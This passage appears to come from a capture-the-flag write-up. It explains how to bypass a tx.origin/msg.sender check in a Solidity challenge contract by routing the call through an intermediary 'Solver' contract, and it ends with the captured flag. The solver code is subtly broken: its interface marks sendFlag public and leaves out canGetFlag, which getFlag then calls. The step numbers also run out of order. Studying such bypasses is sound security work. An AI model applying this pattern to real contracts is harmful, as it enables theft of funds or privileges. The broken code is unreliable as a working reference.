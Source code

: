 ```js
    }

    function canGetFlag(address playerAddress) public view returns (bool) {

        return flagHolders[playerAddress];
    }
}
```

1. We can notice the `require()`, it reverts the transaction when `tx.origin!=msg.sender`

So let's understand what's `tx.origin` and `msg.sender`:

- `tx.origin` is the address that started the transactions.( Called a function of a contract which calls the function from another contract client -> contract -> contract falls all under one transaction. The client here is the `tx.origin`.
- `msg.sender` is the direct address of the one that is calling the function. So if we got contract1 -> contract2 -> contract3 where `->` is a function call. The contract3 will have as `msg.sender` value the address of the contract2 and `contract2` will have as `msg.sender` value the address of contract1.

[Consensys Tx.origin](https://consensys.github.io/smart-contract-best-practices/development-recommendations/solidity-specific/tx-origin/)

2. So let's craft a contract that works as an intermediate to calling the `sendFlag` function.

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface NoManLand{
      function sendFlag() public returns (bool) ;
}

contract Solver {
    NoManLand public victimContract;


    constructor(address victimAddress){
        victimContract=NoManLand(victimAddress);
    }

    function getFlag() public returns (bool){
        victimContract.sendFlag();
        return victimContract.canGetFlag(tx.origin);
    }
}
```

We can use [Remix IDE](https://remix.ethereum.org/), to deploy the contract. 4. We execute the `getFlag` 3. After the transaction succeeds,We go to the website and verify.
`securinets{F4ck_Hnm4ns_Sm4rt_C0n5racts_R0kx}`

### #5 Lesson learned
